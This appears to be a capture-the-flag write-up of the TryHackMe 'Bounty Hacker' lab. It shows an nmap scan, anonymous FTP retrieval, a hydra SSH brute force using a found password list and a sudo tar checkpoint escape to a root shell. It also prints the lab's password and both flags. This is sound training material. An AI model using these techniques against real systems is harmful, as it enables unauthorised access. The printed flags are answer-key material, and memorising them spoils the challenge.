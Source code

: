 🏴‍☠️ TryHackMe - Bounty Hacker

Platform: TryHackMe
Challenge Type: Boot2Root
Author: Gage Ayala (GageGotya)
Date: April 9, 2025
Difficulty: ⭐ Easy

📘 Overview
The Bounty Hacker room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate. 
You’ll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission. 
A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.

🌐 Information Gathering
Target IP: "Grab ip from rooms machine"

🔎 Nmap Scan
nmap -sV -sC <target-ip>

Ports Discovered:
21/tcp open  ftp     vsftpd 3.0.3 (anonymous login allowed)
22/tcp open  ssh     OpenSSH 7.2.2 Ubuntu 
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)

🧠 Observations:

    Anonymous FTP access enabled

    Apache server serves a default or empty page

    SSH available — potential access point

📂 FTP Access

ftp <target-ip>
Name: anonymous

📁 Files Discovered

ftp> ls
locks.txt
task.txt
ftp> get locks.txt
ftp> get task.txt

📄 task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

🔑 Username hint: lin

📄 locks.txt

A custom list of potential passwords — likely reused creds.

🔓 Gaining Access
🚀 Brute Force via Hydra

Used locks.txt as a password list with hydra to crack lin's SSH credentials:

hydra -l lin -P locks.txt ssh://<target-ip>

received password: RedDr4gonSynd1cat3

✅ Login successful!
🔐 SSH Access

ssh lin@<target-ip>

🏁 User Flag
📍 Location

lin@bountyhacker:~/Desktop$ cat user.txt

🧾 Flag

THM{CR1M3_SyNd1C4T3}

✅ User Flag captured!

🪜 Privilege Escalation
🔍 Sudo Permissions

sudo -l

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

📦 Exploiting tar for Root

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

🐚 Spawned a root shell:

# whoami
root

🏁 Root Flag
📍 Location

# cat /root/root.txt

🧾 Flag

THM{80UN7Y_h4cK3r}

✅ Root Flag captured!

🧠 Reflections

    Classic misconfigs like anonymous FTP and exposed wordlists are low-hanging fruit 🪜

    Password reuse remains a major security hole 🔓

    hydra makes brute forcing fast and effective when the list is relevant ⚡

    Privilege escalation doesn’t always require fancy exploits — just clever use of what's already there


📁 Key Files

    locks.txt — password list from FTP

    task.txt — username clue (lin)


🧠 Pro Tip: When in doubt, check for common misconfigurations, try known wordlists, and always check sudo -l. You'd be surprised how often root is just sitting there waiting.
